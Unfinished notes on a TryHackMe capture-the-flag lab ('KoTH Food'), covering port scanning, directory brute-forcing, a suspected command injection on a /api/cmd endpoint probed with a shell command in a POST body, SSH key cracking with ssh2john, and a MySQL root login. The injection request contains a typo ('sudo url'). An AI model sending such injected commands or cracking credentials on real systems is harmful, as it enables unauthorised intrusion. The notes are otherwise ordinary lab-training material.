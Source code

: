 # TRYHACKME : KoTH Food CTF
***NOTE: IN PROGRESS LMAO***

## NMAP
nmap -T4 -p- -v 10.10.46.26

ports:
PORT      STATE SERVICE
22/tcp    open  ssh
3306/tcp  open  mysql
9999/tcp  open  abyss
15065/tcp open  unknown
16109/tcp open  unknown
46969/tcp open  unknown

## Enumeration
exploit: CVE-2020-14567 (vulnerability in MySQL server product)

## http://10.10.46.26:15065/ ##

HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Length: 359
Content-Type: text/html; charset=utf-8
Last-Modified: Sun, 05 Apr 2020 23:29:57 GMT
Date: Tue, 04 Mar 2025 02:54:10 GMT

<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Host monitoring</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>
    <h1>Site down for maintenance</h1>
    <p>Blame Dan, he keeps messing with the prod servers.</p>
</body>

## GOBUSTER
gobuster dir -u http://$ip:15065/ -w /usr/share/wordlists/dirb/big.txt

/monitor

## http://10.10.46.26:15065/monitor/ #####
(Possible command injection)

(input some ip, then check dev tools > network > click POST > request)
note: $ip:15065/api/cmd

(on terminal)
sudo url $ip:15065/api/cmd -X POST -d "ls -lah"


## SSH
initials: Dan

python3 /usr/share/john/ssh2john.py


## MYSQL
mysql -u root -h $ip -p
